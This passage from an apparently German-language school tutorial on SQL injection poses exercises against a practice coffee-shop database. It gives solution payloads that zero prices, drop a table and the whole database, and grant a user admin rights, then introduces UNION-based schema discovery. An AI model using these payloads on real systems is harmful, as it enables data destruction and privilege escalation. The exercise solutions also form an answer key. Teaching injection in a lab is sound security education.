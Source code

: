 Mit dieser Eingabe wird zuerst der von der Applikation vorgegebene Befehl korrekt abgeschlossen und dann die Note des Schülers mit der ID 13 auf eine 6 gesetzt.

:::aufgabe[Übung 3]
<Answer type="state" webKey="4e434f1b-6605-4199-8ce8-a42909acbf98" />

Normalerweise sind einem Angreifer die Details über die Datenbank, welche hier gegeben sind (bspw. die Spaltennamen) nicht bekannt und müssen zuerst herausgefunden werden. Mehr dazu im nächsten Abschnitt.

1.	Ändern Sie die Preise aller Kaffee-Sorten auf 0 Franken.
2.	Ändern Sie die Preise einer ausgewählten Kaffee-Sorte.
3.	Löschen Sie auf der Datenbank die Tabelle `coffee`
4.	Löschen Sie die ganze Datenbank `hfr_hacksql`
5.	Versuchen Sie dem test-Benutzer mit der E-Mail adresse `test@mail.ch` administrator-Rechte zu geben. Dazu muss das Feld `role` auf den Wert `admin` gesetzt werden.

<Answer type="text" webKey="8799718f-a43b-45a5-a127-539c67939026" monospace />

<Solution webKey="f5840fa3-a9a7-4c4c-8a14-35e58d0456db">

#### Aufgabe 1
```sql
'; UPDATE coffee SET price=0; --
```
#### Aufgabe 2
```sql
'; UPDATE coffee SET price=0 WHERE id = 12; --
```
#### Aufgabe 3
```sql
'; DROP TABLE coffee; --
```
#### Aufgabe 4
```sql
'; DROP DATABASE hfr_hacksql; --
```
#### Aufgabe 5
```sql
'; UPDATE users SET role='admin' WHERE name='test'; --
```

</Solution>
:::

## Mehrere Abfragen kombinieren: `UNION`

Oftmals weiss man nicht im Voraus, wie das Schema der Datenbank aussieht (bspw. wie die Tabellen heissen und welche Spalten sie enthalten). Deshalb muss dies oft in einem ersten Schritt herausgefunden werden. Doch die einzige Möglichkeit um die Resultate anzuzeigen, ist das mit der Eingabe verbundene Anzeige-Elemente - bei der Coffee-Shop Webseite also die Tabelle unterhalb vom Filter.


[^1]: Quelle: [Wikipedia](https://de.wikipedia.org/wiki/SQL-Injection)